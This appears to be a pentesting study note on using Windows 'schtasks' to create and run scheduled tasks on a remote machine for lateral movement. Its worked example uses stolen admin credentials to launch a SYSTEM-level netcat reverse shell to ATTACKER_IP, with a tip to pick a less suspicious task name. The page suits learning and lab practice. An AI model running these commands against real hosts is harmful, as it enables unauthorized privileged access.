 # schtasks

> The  `schtasks` command can be used to schedule commands and programs to run periodically or at a specific time.

This command generally requires the user to be a member of the **Administrators** group on the remote computer. Refer to the documentation for exact actions that requires this permissions.

It first connects to port 135, before continuing the process on a dynamic port from 49152 to 65535. Refer to the link labelled "_Port numbers used_" in the resources section below for more information.

### Basic commands

{% code title="schtasks create" %}
```powershell
schtasks /s TARGET /ru "SYSTEM" /create /tn "<taskname>" /tr "<command/payload to execute>" /u "<username>" /p "<password>" /sc ONCE /sd 01/01/1970 /st 00:00 
```
{% endcode %}

* `/create` : Specify to create task
* `/s`: Specifies the name or IP address of a remote computer (with or without backslashes. Default is the local computer
* `/ru` : Runs that task with permission of the specified user account
  * eg. `/ru "SYSTEM"` runs the task with the **local system account**, a highly privileged account used by the operating system and system services
* `/tn` : Specifies a name for the task
* `/tr` : Specifies the program or command that the task runs
* `/u` , `/p` : command will run as the permissions of the username, and password of the user respectively&#x20;
* `/sc` : To specify the schedule type. Refer to the documentation link below for the full list of values
  * In our case, the value `ONCE` specifies that the task runs once at a specified date and time (see `/sd` and `/st`  below)
  * The `/st` option have to be specified if the value `ONCE` is used
* `/sd`: Specifies the date on which the task schedule starts, defaults to the current date on the local computer
* `/st` : Specifies the start time for the task, using the 24-hour time format&#x20;

{% code title="schtasks run" %}
```powershell
schtasks /s TARGET /run /tn  "<taskname>" /u "<username>" /p "<password>"
```
{% endcode %}

* `/run` : Specify to run task
* `/s` , `/tn`, `/u`  and `/p`: same as schtasks-create

### Example

Suppose we have breached a machine (`mach1`) on the AD network, along with credentials for an admin account (member of the **Administrators** group) that can be used on the target machine (`mach2`). We can perform the following sequence of commands to obtain a privileged reverse shell on the target machine (`mach2`). Let's assume the obtained admin credentials are: `admin` , `pass` .

> Assume that `nc64.exe` is present on the target machine, or we have somehow managed to upload a reverse shell payload via a SMB share, etc.

{% code title="mach1 (breached machine)" overflow="wrap" %}
```powershell
# ofcourse we want to change the taskname  to something less suspicious 
#(1)
C:\> schtasks /create /s mach2.xxxx /ru "SYSTEM" /u "admin" /p pass /tn "revshell" /tr "c:\tools\nc64.exe -e cmd.exe ATTACKER_IP <PORT>" /sc ONCE /st xxx 

#(2) same command as (1), just with different payload
C:\> schtasks /create ... /ru "SYSTEM" /tn "revshell" /tr "%windir%\rvshell.exe"  

C:\> schtasks /run /s mach2.xxxx  /tn  "revshell" 
```
{% endcode %}

The `/ru "SYSTEM"` option specifies to run the task as the local system account, that allows us to gain a privileged shell.

Note also that we can omit the `/sd` flag for the create command.

#### Cleanup

```powershell
C:\> schtasks /S TARGET /TN "THMtask1" /DELETE /F
```

### Resources

1. Official `schtasks`  documentation:

{% embed url="https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/schtasks-create" %}

2. Port numbers used:

{% embed url="https://serverfault.com/questions/899954/which-port-is-used-for-running-schtasks-exe-in-a-remote-computer" %}
